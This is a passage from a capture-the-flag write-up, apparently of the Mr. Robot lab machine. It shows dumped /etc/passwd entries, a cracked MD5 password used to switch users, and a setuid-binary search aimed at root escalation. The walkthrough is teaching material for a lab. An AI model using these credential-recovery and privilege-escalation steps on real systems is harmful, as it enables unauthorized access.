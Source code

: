 ```
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:103:106:ftp daemon,,,:/srv/ftp:/bin/false
bitnamiftp:x:1000:1000::/opt/bitnami/apps:/bin/bitnami_ftp_false
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
```

So `robot` is our man (or, you know, robot). The next logical step is to check his/her/its home directory:

```
daemon@linux:/$ cd /home/robot
cd /home/robot
daemon@linux:/home/robot$ ls -lah
ls -lah
total 16K
drwxr-xr-x 2 root  root  4.0K Nov 13  2015 .
drwxr-xr-x 3 root  root  4.0K Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

That's our second key! And also what seems to be a RAW-MD5 encoded password hash. The obvious choice seems running `john` straight away, but it's always a good shot to try and google the hash: it works more often than it should. And, indeed, the hash is known to be the following ultra super safe password:

`abcdefghijklmnopqrstuvwxyz`

SECURITY. But we are OK with it, now we can just `su` into `robot`:

```
daemon@linux:/home/robot$ su robot
su robot

Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ 
```

Nice, we are near!

## Robot

So we look for interesting files for a while. Normally, one would try to find some files with `setuid` permissions and try to use them to get root. The usual trick to find such files works like a charm:

```
robot@linux:~$ find / -user root -perm -4000 2>/dev/null
find / -user root -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
```